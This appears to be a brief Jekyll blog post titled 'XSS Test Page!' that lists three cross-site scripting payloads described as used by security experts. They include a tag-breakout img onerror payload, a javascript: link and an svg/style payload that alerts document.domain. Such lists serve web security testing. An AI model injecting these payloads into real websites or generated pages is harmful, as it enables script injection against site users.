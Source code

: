 ```yaml
---
layout: post
title:  "XSS Test Page!"
date:   2019-12-01 09:19:24 +0530
categories: jekyll update
---
```



Some of the great XSS payloads used by experts in security industry,

'"></title></script><img src=x onerror=confirm(1)>
<a href="javascript:{ js code here}"> POC </a>
<xml:namespace prefix="t"><svg><style>&lt;img/src=x onerror=alert(document.domain)// </b> 

